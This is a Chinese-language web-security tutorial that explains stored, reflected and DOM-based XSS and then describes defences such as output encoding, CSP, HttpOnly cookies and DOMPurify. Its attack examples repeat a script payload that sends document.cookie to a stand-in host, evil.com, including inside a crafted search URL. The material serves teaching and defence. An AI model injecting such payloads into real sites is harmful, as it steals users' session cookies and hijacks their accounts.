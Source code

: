 ## XSS（跨站脚本攻击）


### 存储型 XSS（Stored XSS）


#### 步骤：

1. **提交带脚本的内容**
    - 比如在网站的评论、昵称、签名、文章等输入框中输入恶意脚本：

```
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```

2. **服务端没有进行过滤与转义**
    - 直接存入数据库，下一次页面渲染时会原样输出到 HTML 页面中。
3. **用户访问该内容页面**
    - 浏览器解析页面时执行 `<script>`，从而泄露信息。

#### 示例：

用户访问页面时看到的内容是：

```
<p>黑客的评论：</p> 
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```

用户的 `document.cookie` 被发送给黑客控制的服务器。
### 反射型 XSS（Reflected XSS）
#### 步骤：

1. 比如构造一个**带脚本的 URL**，例如
    `https://abc.com/search?q=<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>`
2. **abc.com 的搜索功能页面会将参数 `q` 直接插入到 HTML 中**，比如：
    `你搜索了：<div id="result">${q}</div>`
3. 诱导用户点击这个链接（比如在钓鱼邮件、评论、微信发链接）。
4. 用户点击后访问该地址，浏览器解析并执行注入的 `<script>`，泄露信息。

### DOM 型 XSS（DOM-based XSS）

恶意代码**不经过服务器处理**，而是通过前端 JavaScript 操作 DOM 导致执行。

```
// 页面脚本：将 URL 中参数直接插入页面
document.getElementById('output').innerHTML = location.search;

// 用户访问
?msg=<script>alert('xss')</script>
```

### XSS攻击的目的

- 窃取 Cookie，获取用户身份认证信息
    
- 伪造用户行为（如转账、点赞）
    
- 注入广告、钓鱼链接
    
- 绕过 CSRF 防御等手段

## 如何防御 XSS

#### 1. 输入过滤 + 输出编码

输入过滤：

过滤掉明显危险的字符：如 `<script>`, `<img onerror=...>` 等
注意不能仅靠黑名单，容易绕过。

输出编码（重要）：

| 场景         | 防御方式                   |
| ---------- | ---------------------- |
| HTML 标签中内容 | 转义 `< > & " '` 等字符     |
| 属性中        | 使用属性值时转义 `"` `'`       |
| JS 中       | 严禁拼接脚本代码，使用 JSON 编码    |
| URL 中      | `encodeURIComponent()` |

**推荐工具：**

- 前端：`DOMPurify`、`xss` 库
- 后端（Node.js）：`xss-filters`、`helmet`

#### 2. 使用 CSP（内容安全策略）

限制页面可以加载的资源，防止注入脚本执行。

```
Content-Security-Policy: default-src 'self'; script-src 'self'
```

#### 3. HttpOnly + Secure 设置 Cookie

防止通过 JavaScript 获取 Cookie 信息。

```
Set-Cookie: token=xxx; HttpOnly; Secure; SameSite=Strict
```

#### 4. 使用框架内建的防御机制

- React 默认对 JSX 中插值内容进行转义
- Vue 自动转义插值表达式
- 不要使用 `v-html`、`dangerouslySetInnerHTML` 除非特别谨慎

#### 备注：

##### vue或react中如果要使用富文本，可以使用dompurify库先转换

```
npm install dompurify
```

```
import DOMPurify from 'dompurify';

export default {
  computed: {
    safeHtml() {
      return DOMPurify.sanitize(this.content);
    },
  },
};
```

```
<div v-html="safeHtml"></div>
```

##### 如果只是显示文本（不需要 HTML），直接插值：

```
<p>{{ content }}</p> <!-- 自动转义 -->
```

##### 安全用法的 `setTimeout`

不安全的：

```
const userInput = "alert('XSS')";
setTimeout(userInput, 1000); //  会执行 alert('XSS')
```

安全写法：

```
//  正确写法：传入函数，不传字符串
setTimeout(() => {
  console.log("安全执行");
}, 1000);
```


##### 禁止使用 new Function()

不安全的：

```
new Function(userInput)(); //  也会执行 alert('XSS')
```

##### 不要在标签上添加事件

危险写法：

```
<div onclick="...">
```

应该使用 `addEventListener` / `@click` 

##### 不使用 innerHTML，eval()，

可以使用 textContent, appendChild 相对安全

